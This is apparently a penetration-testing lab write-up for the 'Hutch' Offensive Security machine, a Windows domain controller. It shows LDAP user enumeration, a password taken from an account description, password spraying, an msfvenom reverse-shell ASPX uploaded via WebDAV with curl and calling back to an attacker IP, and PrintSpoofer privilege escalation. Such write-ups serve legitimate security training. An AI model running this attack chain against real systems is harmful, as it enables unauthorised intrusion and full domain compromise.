 # Hutch

### Enumeration

```
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Server Date: Thu, 28 Oct 2021 16:28:55 GMT
|   Server Type: Microsoft-IIS/10.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
...
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
...
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
...
```

```
$ ldapsearch -x -h 192.168.99.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName:
...
sAMAccountName: rplacidi
sAMAccountName: opatry
sAMAccountName: ltaunton
sAMAccountName: acostello
sAMAccountName: jsparwell
sAMAccountName: oknee
sAMAccountName: jmckendry
sAMAccountName: avictoria
sAMAccountName: jfrarey
sAMAccountName: eaburrow
sAMAccountName: cluddy
sAMAccountName: agitthouse
sAMAccountName: fmcsorley
```

We created a list. It contains above usernames.

```
$ ldapsearch -x -h 192.168.99.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description
...
description: Password set to [REDACTED] at user's request. Please c
```

```
$ crackmapexec smb 192.168.99.122 -u users.txt -p [REDACTED]
SMB         192.168.99.122  445    HUTCHDC          [+] hutch.offsec\fmcsorley:[REDACTED]
```

### Initial Access

We have a valid credential and there is a webdav enabled web service.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.99 LPORT=80 -f aspx -o shell.aspx
$ curl -T 'shell.aspx' 'http://192.168.99.122/' -u fmcsorley:[REDACTED]
```

### PrivEsc

SeImpersonatePrivilege - Enabled

PrintSpoofer.exe - [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

smbserver.py - [https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py)

```
$ python smbserver.py share smb
```

```
C:\>\\192.168.49.99\share\PrintSpoofer.exe -i -c cmd

C:\Windows\system32>
```
